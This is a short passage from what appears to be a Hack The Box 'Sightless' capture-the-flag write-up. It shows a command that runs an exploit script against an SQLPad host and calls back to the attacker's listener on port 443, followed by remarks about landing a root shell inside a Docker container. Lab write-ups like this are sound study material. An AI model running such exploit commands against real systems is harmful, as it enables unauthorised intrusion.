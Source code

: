 ```
python exploit.py http://sqlpad.sightless.htb 10.10.14.72 443
```

![](IMG/7.png)

> Listener 
> I just got a root user !!! ??? 
> But the hostname .... it's not the common one

![](IMG/8.png)

> Check the root directory 
> Ok... I may land in docker ... 
